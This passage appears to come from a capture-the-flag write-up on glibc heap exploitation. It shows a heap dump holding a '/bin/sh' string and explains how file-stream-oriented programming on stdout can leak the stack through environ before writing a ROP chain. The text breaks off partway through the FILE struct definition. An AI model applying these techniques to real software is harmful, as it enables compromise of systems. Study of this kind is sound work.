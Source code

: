 ```py
0x55c4fbcd7a90: 0x5454545454545454      0x5454545454545454  
0x55c4fbcd7aa0: 0x5454545454545454      0x5454545454545454  
0x55c4fbcd7ab0: 0x5454545454545454      0x5454545454545454  
0x55c4fbcd7ac0: 0x5454545454545454      0x5454545454545454  
0x55c4fbcd7ad0: 0x5454545454545454      0x5454545454545454  
0x55c4fbcd7ae0: 0x5454545454545454      0x5454545454545454  
0x55c4fbcd7af0: 0x5454545454545454      0x5454545454545454  
0x55c4fbcd7b00: 0x5454545454545454      0x5454545454545454  
0x55c4fbcd7b10: 0x5454545454545454      0x0000000000000111 [a]  
0x55c4fbcd7b20: 0x00007f5d45ff5b57      0x4f60331b73b9000a  
0x55c4fbcd7b30: 0x0000000000000000      0x0000000000000000  
0x55c4fbcd7b40: 0x0000000000000000      0x00000000000000e1 [unsortedbin]  
0x55c4fbcd7b50: 0x00007f5819b0dce0      0x00007f5819b0dce0  
0x55c4fbcd7b60: 0x0000000000000000      0x0000000000000000  
0x55c4fbcd7b70: 0x0000000000000000      0x0000000000000000  
0x55c4fbcd7b80: 0x0000000000000000      0x0000000000000000  
0x55c4fbcd7b90: 0x0000000000000000      0x0000000000000000  
0x55c4fbcd7ba0: 0x0000000000000000      0x0000000000000000  
0x55c4fbcd7bb0: 0x0000000000000000      0x0000000000000000  
0x55c4fbcd7bc0: 0x0000000000000000      0x0000000000000000  
0x55c4fbcd7bd0: 0x0000000000000000      0x0000000000000000  
0x55c4fbcd7be0: 0x0000000000000000      0x0000000000000000  
0x55c4fbcd7bf0: 0x0000000000000000      0x0000000000000000  
0x55c4fbcd7c00: 0x0000000000000000      0x0000000000000000  
0x55c4fbcd7c10: 0x0000000000000000      0x0000000000000000  
0x55c4fbcd7c20: 0x00000000000000e0      0x0000000000000020  
0x55c4fbcd7c30: 0x0068732f6e69622f      0x000000000000000a  
0x55c4fbcd7c40: 0x0000000000000000      0x00000000000203c1 [top chunk]  
"""  
```

## FSOP on stdout to leak environ

I didn't see first that only `PARTIAL RELRO` was enabled on the libc, so the
technique I show you here was thought to face a `2.35` libc with `FULL RELRO`
enabled that the reason why I didn't just hiijack some GOT pointers within the
libc.

A pretty convenient way to gain code execution when the hooks
(`__malloc_hook`, `__free_hook`) are not present (since `2.32` cf [this for
2.34](https://sourceware.org/pipermail/libc-alpha/2021-August/129718.html)) is
to leak the address of the stack to then write a ROPchain on it. To leak a
stack address we can make use of the `environ` symbol stored in the dynamic
linker, it contains a pointer toward `**envp`.

To read this pointer we need a read what where primitive! Which can be
achieved through a file stream oriented programming (FSOP) attack on `stdout`
for example. To dig more FSOP I advise you to read [this write-
up](https://nasm.re/posts/onceforall/) as well as [this
one](https://nasm.re/posts/bookwriter/).

To understand the whole process I'll try to introduce you to FSOP. First of
all the target structure is stdout, we wanna corrupt stdout because it's used
ritght after the `fgets` that reads the input from the user by the `putchar`
function. Basically on linux "everything is a file" from the character device
the any stream (error, input, output, opened file) we can interact with  a
resource just by opening it and by getting a file descriptor on it, right ?
This way each file descripor has an associated structure called `FILE` you may
have used if you have already done some stuff with files on linux. Here is its
definition:  
```c  
//
https://elixir.bootlin.com/glibc/latest/source/libio/bits/types/struct_FILE.h#L49  
/* The tag name of this struct is _IO_FILE to preserve historic  
```